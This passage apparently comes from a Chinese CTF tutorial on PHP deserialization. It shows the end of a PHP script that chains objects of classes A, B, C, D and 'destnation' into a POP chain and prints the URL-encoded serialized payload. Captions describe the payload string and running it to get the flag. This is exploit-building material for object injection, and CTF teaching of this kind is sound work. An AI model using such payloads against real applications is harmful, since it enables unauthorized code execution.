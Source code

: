         $c_obj = new C();
        $b_obj = new B(); $b_obj->b = $c_obj;
        $a_obj = new A(); $a_obj->a = $b_obj;
        $dest_obj = new destnation(); $dest_obj->cmd = $a_obj;
        $d_obj = new D(); $d_obj->d = $dest_obj;

        echo urlencode(serialize($d_obj));
        ?>
        ```
    ![POP链前置 2](/hello_ctf/images/Serialize29.png) (构造好的序列化字符串)
    ![POP链前置 3](/hello_ctf/images/Serialize30.png) (执行 Payload 获取 Flag)
